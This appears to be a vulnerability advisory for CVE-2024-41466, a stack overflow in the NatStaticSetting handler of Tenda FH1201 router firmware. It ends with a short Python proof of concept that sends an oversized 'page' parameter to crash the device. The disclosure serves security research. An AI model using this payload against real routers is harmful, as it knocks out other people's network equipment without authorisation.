


# NatStaticSetting

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41466

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the NatStaticSetting function.The parameter page is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter




### poc

```python
import requests

ip = '192.168.74.145'


url = f"http://{ip}/goform/NatStaticSetting"

data = {"page":b'a'*999}

ret = requests.post(url, data)
```


